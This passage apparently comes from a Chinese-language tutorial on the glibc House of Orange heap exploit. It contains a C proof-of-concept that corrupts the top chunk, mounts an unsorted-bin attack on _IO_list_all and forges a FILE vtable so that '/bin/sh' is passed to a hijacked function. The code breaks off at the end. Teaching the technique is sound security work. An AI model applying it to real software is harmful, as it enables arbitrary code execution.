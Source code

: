伪造的情况如下：

![vtable](https://raw.githubusercontent.com/De4dCr0w/De4dCr0w.github.io/master/image/houseoforange/vtable.jpg)

之后调用_IO_OVERFLOW就会调用填充的system函数。

### 0x04 例子代码

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int winner ( char *ptr);

int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;
    p1 = malloc(0x400-16);//申请一块内存

    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;//修改top_chunk的size

    p2 = malloc(0x1000);//申请超过
       
    io_list_all = top[2] + 0x9a8;//获取io_list_all的值，相对偏移是固定的

    top[3] = io_list_all - 0x10;//部署unsorted bin攻击

    memcpy( ( char *) top, "/bin/sh\x00", 8);

    top[1] = 0x61;
   
    top[24] = 1;

    top[21] = 2;
    top[22] = 3;

   
    top[20] = (size_t) &top[18];

    top[15] = (size_t) &winner;
    top[27] = (size_t ) &top[12];
    malloc(10);

    return 0;
}

int winner(char *ptr)
```